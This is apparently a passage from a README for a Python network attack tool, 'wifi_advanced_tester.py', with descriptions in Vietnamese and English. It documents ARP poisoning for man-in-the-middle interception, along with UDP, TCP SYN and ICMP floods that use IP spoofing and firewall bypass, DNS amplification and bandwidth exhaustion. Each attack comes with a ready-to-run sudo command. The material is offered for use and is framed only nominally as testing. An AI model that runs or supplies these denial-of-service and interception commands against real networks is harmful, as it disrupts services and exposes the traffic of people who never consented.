 #### 4. ARP Poisoning/Spoofing
- **Man-in-the-middle**: Chặn traffic giữa client và gateway
- **Bi-directional poisoning**: Poison cả 2 chiều
- **Multi-threading**: Nhiều luồng poison đồng thời
```bash
sudo python3 wifi_advanced_tester.py --arp-poison -t 192.168.1.100
```

### 🌊 Layer 3/4 Flood Attacks

#### 5. UDP Flood Attack
- **High-intensity flooding**: 50+ threads
- **Large packet sizes**: Lên đến 65KB/packet
- **Multiple ports**: Tấn công nhiều port đồng thời
- **Raw socket implementation**: Bypass firewall
```bash
sudo python3 wifi_advanced_tester.py --udp-flood -t 192.168.1.1 --threads 50 --size 1472
```

#### 6. TCP SYN Flood Attack
- **IP spoofing**: Random source IP mỗi packet
- **Random source ports**: Tránh bị block
- **Multi-threading**: 40+ threads
- **Half-open connections**: Làm cạn kiệt connection table
```bash
sudo python3 wifi_advanced_tester.py --syn-flood -t 192.168.1.1 --threads 40
```

#### 7. ICMP Flood Attack
- **Large payloads**: Packet size lên đến 64KB
- **IP spoofing**: Random source IP
- **Multiple ICMP types**: Ping, timestamp, info request
- **Multi-threading**: 30+ threads
```bash
sudo python3 wifi_advanced_tester.py --icmp-flood -t 192.168.1.1 --threads 30 --size 1024
```

#### 8. DNS Amplification Attack
- **Amplification factor**: 10-50x traffic amplification
- **Multiple DNS servers**: Sử dụng nhiều DNS public
- **Large query types**: ANY, TXT, MX records
- **Target spoofing**: Spoof source IP thành target
```bash
sudo python3 wifi_advanced_tester.py --dns-amp -t 192.168.1.1 --threads 20
```

#### 9. Bandwidth Consumption Attack
- **Maximum packet size**: 65KB UDP packets
- **High thread count**: 100+ threads
- **Continuous flooding**: Chiếm hết băng thông
```bash
sudo python3 wifi_advanced_tester.py --bandwidth-attack -t 192.168.1.1 --threads 100
```
